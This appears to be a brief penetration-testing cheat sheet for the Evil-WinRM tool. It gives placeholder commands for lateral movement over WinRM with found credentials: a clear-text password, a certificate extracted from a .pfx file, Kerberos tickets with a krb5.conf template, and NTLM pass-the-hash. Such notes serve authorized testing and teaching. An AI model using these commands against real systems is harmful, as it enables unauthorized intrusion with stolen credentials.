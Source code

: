# Evil-WinRM 

## Link: https://github.com/Hackplayers/evil-winrm

## Port: 5985 (Over HTTP) 5986 (Over HTTPS)

## TIP: Use -S flag to enable SSL. Use this when the WinRM port is 5986 (Over HTTPS)

### Do lateral movement via WinRM protocol using foudn credentials with evil-winrm

## Authentication Methods

#### 1) Clear text Password

 - evil-winrm -i TARGET_IP -u USERNAME -p PASSWORD

#### 2) Certificate (.pfx file)

 - openssl pkcs12 -in USER_PFX_CERT.pfx -nocerts -out key.pem -nodes

 - openssl pkcs12 -in USER_PFX_CERT.pfx -nokeys -out cert.pem

### After generating the private key from the .pfx file, we use Evil-WinRM to authenticate

 - evil-winrm -i TARGET_IP -c CERT.pem -k KEY.pem

#### 3) Kerberos

 - kinit USERNAME@DOMAIN.LOCAL (Authenticate and retrieve a ticket on Windows)

 - impacket-getTGT DOMAIN.LOCAL/USERNAME:PASSWORD (Request a TGT ticket on Linux)

 - Configure /etc/krb5.conf file with the appropriate settings (Replace some of the placeholders for your use case)

       [libdefaults]
        default_realm = DOMAIN.LOCAL
        ticket_lifetime = 24h
        renew_lifetime = 7d
        forwardable = true
        dns_lookup_realm = false
        dns_lookup_kdc = true

       [realms]
       DOMAIN.local = {
        kdc = IP or Hostname of KDC/Domain Controller
        admin_server = IP or Hostname of Admin Server
       }

       [domain_realm]
        .domain.local = DOMAIN.LOCAL
        domain.local = DOMAIN.LOCAL

### 

 - evil-winrm -r DOMAIN.LOCAL -i DC.DOMAIN.LOCAL (Authenticate via kerberos)

#### 4) NTLM Authentication (Pass-the-Hash)

 - evil-winrm -i TARGET_IP -u USER -H NTLM_HASH
